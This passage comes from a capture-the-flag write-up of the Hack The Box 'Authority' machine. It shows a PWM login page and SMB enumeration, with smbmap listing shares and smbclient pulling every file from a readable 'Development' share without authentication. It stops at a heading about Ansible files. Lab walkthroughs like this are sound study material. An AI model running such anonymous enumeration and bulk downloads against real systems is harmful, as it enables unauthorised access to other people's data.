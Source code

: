 ```10.10.11.222 authority.htb```

When we click on the arrow we can see more information and the version number of PWM.

![alt text](/assets/Hackthebox/Authority/image-3.png)

Clicking on any of the tab Configuration Manager and Configuration Editor, it prompts us for password.

![alt text](/assets/Hackthebox/Authority/image-4.png)

### SMB Enumeration

Using smbmap we can see that we have access to the Development share.

```bash
smbmap -H 10.10.11.222 -u 'anonymous' -p ''
[+] Guest session   	IP: 10.10.11.222:445	Name: authority.htb                                     
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	Department Shares                                 	NO ACCESS	
	Development                                       	READ ONLY	
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	NO ACCESS	Logon server share 
	SYSVOL                                            	NO ACCESS	Logon server share 
```

### Smbclient
Now, we will use smbclinet will null authentication to view and download all the files locally.

```bash
$smbclient -N //10.10.11.222/Development 
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Mar 17 08:20:38 2023
  ..                                  D        0  Fri Mar 17 08:20:38 2023
  Automation                          D        0  Fri Mar 17 08:20:40 2023

smb: \> RECURSE ON
smb: \> prompt no
smb: \> mget *
getting file \Automation\Ansible\ADCS\.ansible-lint of size 259 as Automation/Ansible/ADCS/.ansible-lint (0.9 KiloBytes/sec) (average 0.9 KiloBytes/sec)
<SNIP>
```

## Shell as svc_ldap
### Asnsible Files
